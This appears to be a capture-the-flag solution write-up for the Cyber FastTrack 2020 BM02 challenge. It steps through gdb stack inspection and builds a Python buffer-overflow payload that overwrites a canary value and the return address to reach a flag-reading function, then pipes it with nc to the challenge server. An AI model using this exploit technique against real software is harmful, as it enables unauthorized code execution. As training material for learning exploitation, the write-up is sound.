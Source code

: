 # Cyber FastTrack Spring 2020- BM02 Solution
In this challenge, we use buffer overflow to display the flag.\
BM02_1.PNG\
![image info](BM02_1.PNG)
* We use IDA software to display the structure of this program. There are the exploitable(char const*) function and the read_flag(void) function. Also, there are some local variales that stored in the explotable() function. For a better understanding of the program, we need a gdb debugger.

BM02_2.PNG\
![image info](BM02_2.PNG)
* In the terminal, we type `gdb <name of your program>` to start the debugger.
* Type `run` to run the program in the debugger.
* Hold down the Ctrl key and press c

BM02_3.PNG\
![image info](BM02_3.PNG)
* Notice that, in order to enter the exploitable() function, we first need to enter `add_candidate` to add employee and then enter the exploitable() function.

BM02_4.PNG\
![image info](BM02_4.PNG)
* Enter `disas exploitable(char const*)`
* Enter `c` to continue without paging
* we use break *address to set a break point. In this case, we use 0x5655634d.


BM02_5.PNG\
![image info](BM02_5.PNG)
* Type `break *0x5655634d`
* Type `run`
* Type `add_candidate`

BM02_6.PNG\
![image info](BM02_6.PNG)
* Enter one information for each of the First Name, Last Name, and Job Title.
  * In this case, I entered `First` as the First Name, `Last` as the Last Name, and `Title` as the Job Title.
* Then, you will encounter an breakpoint at `Breakpoint 1, 0x5655634d in exploitable(char const*) ()`

BM02_7.PNG\
![image info](BM02_7.PNG)
* Enter info frame to get the return address that stored at eip. In this case, the return address is `0x56557492`. 

BM02_8.PNG\
![image info](BM02_8.PNG)
* Display the current and the next 199 stack pointer.
* Enter `x/200x $sp`
* The addresses that are 0x00000000 are local variables that we need to fill in before accessing/changing the return address. So in a text file, we enter the following and save it as a python file.
```python
print("add_candidate")
print('A'*20)
```
BM02_9.PNG\
![image info](BM02_9.PNG)
* Hold down the Ctrl key and press c to exit the current program
* To run the program again, we type `run < <(python bm02.py)`
* Type `y` to start from the beginning
* In order to see the differences, we enter x/200x $sp to display the current and the next 199 stack pointer.
	From BM02_9.PNG, we see that there are twenty-five `0x00000000` remaining for us to fill out and then we have to overwrite the `0xdeadbeef`.
	Next, in order for us to change to return address, we need to overwrite the addresses that are before the return address. There are three adresses remaining to changes. Then, we changes the return address to `0x5655615d`. Note: we get `0x5655615d` from `disas read_flag` in the debugger. Remember, we have to write the addresses in reverse byte order.
	So, we changes the contents of the python file to:
```python
print("add_candidate")
print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
```	

BM02_10.PNG\
![image info](BM02_10.PNG)
* Hold down the Ctrl key and press c to exit the current program
* To run the program again, we type `run < <(python bm02.py)`
* Type y to start from the beginning
* Enter `info frame` to see if the return address changed to `0x5655615d`.

BM02_11.PNG\
![image info](BM02_11.PNG)
* Use `si` to execute one instruction at a time to see if the program enters the `read_flag(void)` function.
* We see that the program enters the `read_flag(void)` function.

BM02_12.PNG\
![image info](BM02_12.PNG)
* Use `si` to execute one instruction at a time and we will see the flag eventually.

BM02_13.PNG\
![image info](BM02_13.PNG)
* In order to get the server to response to our request, we need to print out the last name and the job title. So we edit the python file as below:
```python
print("add_candidate")
print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
print("last name")
print("job title")
```	
* Send the bm02.py to the server and it would prints out the flag.
  * `python bm02.py | nc bm02.allyourbases.co 9003`





	
